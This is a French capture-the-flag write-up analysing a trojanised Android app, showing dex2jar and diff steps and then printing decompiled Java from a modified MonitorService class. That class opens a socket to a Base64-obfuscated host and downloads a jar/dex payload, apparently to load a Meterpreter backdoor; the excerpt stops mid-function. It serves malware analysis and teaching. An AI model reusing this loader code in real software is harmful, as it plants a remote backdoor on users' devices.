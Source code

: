 Comment le pirate, en dehors de bypasser la signature, a t-il vérolé l'application originale ?  

A t-il utilisé un outil comme [Ajar](https://github.com/Atticuss/ajar) ?  

D'où venait provenait le Meterpreter s'il n'est pas présent dans le listing donné par unzip ?  

Les organisateurs du *CySCA* s'attendaient visiblement à ce que l'on utilise *smali* pour faire un [deodexing](https://code.google.com/p/smali/wiki/DeodexInstructions) des odex (fichiers dex compressé). Une opération qui nécessite effectivement le dossier framework fournit.  

De mon côté j'ai simplement eu recours à *dex2jar*.  

J'ai procédé de la façon suivante :  

Dans un premier temps j'ai extrait les deux versions du *classes.dex* depuis l'APK.  

J'ai ensuite converti chaque .dex en .jar via *dex2jar* :  

```plain
$ d2j-dex2jar.sh classes.dex
dex2jar classes.dex -> ./classes-dex2jar.jar
```

Ensuite je décompresse bêtement les deux .jar vers des dossiers différents (*v1* et *v2*).  

La commande diff permet de connaître les fichiers modifiés, ajoutés ou supprimés :  

```plain
$ diff -r v1 v2
Only in v2/org/jtb/httpmon: MonitorService$3.class
Binary files v1/org/jtb/httpmon/MonitorService.class and v2/org/jtb/httpmon/MonitorService.class differ
```

S'ensuit l'ouverture de la classe *MonitorService* dans la jar modifié depuis *JD-GUI* :  

```java
public static void checkUpdates(String[] paramArrayOfString)
{
  while (true)
  {
    int i;
    try
    {
      paramArrayOfString = new Socket(new String(Base64.decode("aHR0cG1vbi5hbmRyb2lkc2hhcmUubmV0", 0)), Integer.parseInt(new String(Base64.decode("NDQz", 0))));
      DataInputStream localDataInputStream = new DataInputStream(paramArrayOfString.getInputStream());
      DataOutputStream localDataOutputStream = new DataOutputStream(paramArrayOfString.getOutputStream());
      Object localObject3 = context.getPackageManager().getPackageInfo(context.getPackageName(), 0).versionName;
      Log.w("httpmon", "Software update started for " + (String)localObject3 + ".");
      Object localObject1 = new File(".").getAbsolutePath();
      Object localObject2 = localObject1 + File.separatorChar + "UpdateService.jar";
      String str = localObject1 + File.separatorChar + "UpdateService.dex";
      Object localObject4 = new File(localObject1 + File.separatorChar).listFiles();
      if (localObject4 != null)
      {
        i = 0;
        if (i < localObject4.length);
      }
      else
      {
        localObject4 = new byte[localDataInputStream.readInt()];
        localDataInputStream.readFully((byte[])localObject4);
        localObject4 = new String((byte[])localObject4);
        if (((String)localObject4).contains((CharSequence)localObject3))
          break label531;
        byte[] arrayOfByte = new byte[localDataInputStream.readInt()];
```